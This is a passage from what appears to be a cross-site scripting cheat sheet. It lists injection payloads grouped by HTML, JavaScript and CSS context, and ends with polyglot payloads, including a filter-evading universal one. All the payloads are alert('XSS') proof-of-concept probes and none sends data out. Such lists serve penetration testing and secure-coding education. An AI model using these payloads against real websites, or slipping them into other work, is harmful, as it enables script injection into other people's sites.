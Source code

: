 #### 1. Inside Tags
```javascript
<input value="<script>alert('XSS')</script>">
<textarea><script>alert('XSS')</script></textarea>
```

#### 2. Between Tags
```javascript
<div><script>alert('XSS')</script></div>
<p><script>alert('XSS')</script></p>
```

### JavaScript Context

#### 1. String Injection
```javascript
var user = "user"; alert('XSS'); //";
var user = 'user'; alert('XSS'); //';
```

#### 2. Function Injection
```javascript
function test(param) { alert('XSS'); }
test("user"); alert('XSS'); //");
```

### CSS Context

#### 1. Style Injection
```css
background: url("javascript:alert('XSS')");
background: url("data:text/javascript,alert('XSS')");
```

#### 2. Expression Injection
```css
background: expression(alert('XSS'));
background: -moz-binding: url("javascript:alert('XSS')");
```

## Advanced Techniques {#advanced-techniques}

### Polyglot Payloads

#### 1. Multi-Context Payload
```javascript
';alert('XSS');//
</script><script>alert('XSS')</script>
<!--<script>alert('XSS')</script>-->
```

#### 2. Universal Payload
```javascript
javascript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>
```
